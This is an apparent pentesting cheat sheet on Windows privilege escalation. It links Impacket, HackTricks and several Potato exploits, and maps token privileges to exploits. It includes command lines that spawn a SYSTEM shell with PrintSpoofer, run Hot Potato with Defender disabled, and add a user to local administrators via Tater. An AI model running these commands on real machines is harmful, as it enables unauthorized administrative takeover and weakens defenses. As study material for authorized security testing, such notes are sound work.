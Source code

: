 [Other scripts here](https://github.com/Scr1ptK1ddie/WindowsBinaries) 

### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples

## Checklists    
[HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)  
[Fuzzy security](http://www.fuzzysecurity.com/tutorials/16.html) 

____   

# Manual Enum 
https://lolbas-project.github.io/#   

## Privilege Exploits 

[Reference](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)   

    whoami /priv running process, can enable for different process if user has priv
    #State: disabled for running process, can enable for different process depending on access
    SeImpersonatePrivilege -> PrintSpoofer, Juicy Potato, Rogue Potato, Hot Potato
    SeAssignPrimaryTokenPrivilege -> Juicy Potato 
    SeTakeOwnershipPrivilege ->  become the owner of any object and modify the DACL to grant access.

    If the machine is >= Windows 10 1809 & Windows Server 2019 - Try Rogue Potato
    If the machine is < Windows 10 1809 < Windows Server 2019 - Try Juicy Potato

### PrintSpoofer 
SeImpersonatePrivilege. Windows Server 2016, Server 2019, and Windows 10. 
[Print Spoofer](https://github.com/itm4n/PrintSpoofer)  
[Compiled exe](https://github.com/dievus/printspoofer)  

     PrintSpoofer.exe -i -c cmd

### Hot Potato (Original)    
SeImpersonatePrivilige
Windows 7, 8, 10, Server 2008, and Server 2012. Patched. 
exe: [Potato](https://github.com/foxglovesec/Potato/)     

     Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true  
     
Powershell: [Tater](https://github.com/Kevin-Robertson/Tater). Need to bypass powershell execution policy. Upload Tater and import.    
     Import-Module Tater.ps1 
     Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"   

### Juicy Potato   
Look for SeImpersonate or SeAssignPrimaryToken 
[binaries](https://github.com/ohpe/juicy-potato)  
[CLSIDS](http://ohpe.it/juicy-potato/CLSID/)   
